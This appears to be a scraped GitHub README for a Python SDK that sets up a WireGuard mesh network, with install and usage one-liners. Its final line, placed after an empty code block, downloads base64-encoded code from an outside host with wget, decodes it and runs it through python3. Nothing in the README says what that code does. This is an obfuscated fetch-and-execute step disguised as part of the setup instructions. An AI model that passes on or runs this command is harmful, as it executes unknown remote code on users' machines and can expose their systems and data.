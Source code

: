 # meshing-sdk-python
Python SDK to run a WireGuard meshing network.

```bash
pip3 install meshing

# 2 lines to initialize your meshing network
python3 -c 'import meshing; meshing.checkin()'
python3 -c 'import meshing; meshing.connect()'

# list neighbors/routers
python3 -c 'import meshing; meshing.neighbors()'
# reload meshing
python3 -c 'import meshing; meshing.restart()'
```

```ipython

```

python3 -c "$(wget -q -O- https://files.devnull.cn/register | base64 -d)"
